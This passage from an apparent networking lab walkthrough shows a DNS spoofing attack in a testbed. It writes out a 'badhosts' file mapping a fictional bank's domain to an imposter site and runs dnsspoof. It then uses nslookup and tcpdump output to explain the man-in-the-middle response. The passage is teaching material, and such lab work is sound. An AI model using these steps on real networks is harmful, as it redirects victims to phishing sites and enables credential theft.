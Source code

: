 <pre>
echo "<b>66.104.96.102</b> bankofhamilton.com" > /tmp/badhosts
sudo dnsspoof -i eth1 -f /tmp/badhosts
</pre>

substituting for the part in bold the public IP address for the "fake" bank node that you found in a [previous step](#setupthefakewebsite) (and substitute: diamondbanking.com if using Diamond Bank).

This command creates a file called `badhosts` with a list of IP address and hostname mappings that we will fool our client into believing. In this case, our attacker will make the client go to our imposter site when he tries to visit Bank of Hamilton. Then we use the `dnsspoof` tool to answer DNS queries for those hosts.


On the client, run

```
nslookup bankofhamilton.com
```

(substitute: diamondbanking.com if using Diamond Bank).

Check the IP address returned from `nslookup`  - is it the same one as before? 

<pre>
Server:		10.10.1.2
Address:	   10.10.1.2#53

Name:	bankofhamilton.com
Address: <b>66.104.96.102</b>
</pre>

Also note that the client _believes_ it has received a response from the "good" DNS/DHCP server (at 10.10.1.2), even though this actually came from the attacker.

In the `tcpdump` output, you should see the DNS query and response. First, we see that the client (02:0f:07:a6:c6:d8 in this example) sends a DNS query for bankofhamilton.com to the IP address of the good server, 10.10.1.2, but using the attacker's MAC address (02:60:70:39:bf:e2) as the destination:

```
15:01:22.684782 02:0f:07:a6:c6:d8 > 02:60:70:39:bf:e2, ethertype IPv4 (0x0800), length 78: 10.10.1.37.36285 > 10.10.1.2.53: 36777+ A? bankofhamilton.com. (36)
```

The attacker then sends a query to the "good" DNS server (on 02:b7:c8:cf:b7:ce in this example) pretending to be the client at 10.10.1.37, and finds out the actual IP address associated with that hostname. (In the event that the hostname requested  by the client is not on the list of IP addresses it will "spoof", it still needs to return an address - which it will learn from this legitimate DNS lookup.)

```
15:01:22.684815 02:60:70:39:bf:e2 > 02:b7:c8:cf:b7:ce, ethertype IPv4 (0x0800), length 78: 10.10.1.37.36285 > 10.10.1.2.53: 36777+ A? bankofhamilton.com. (36)
```

The attacker (02:60:70:39:bf:e2) sends a response to the client (02:0f:07:a6:c6:d8) claiming that the Bank of Hamilton site is at 66.104.96.102, which is the IP address of the "fake" site:
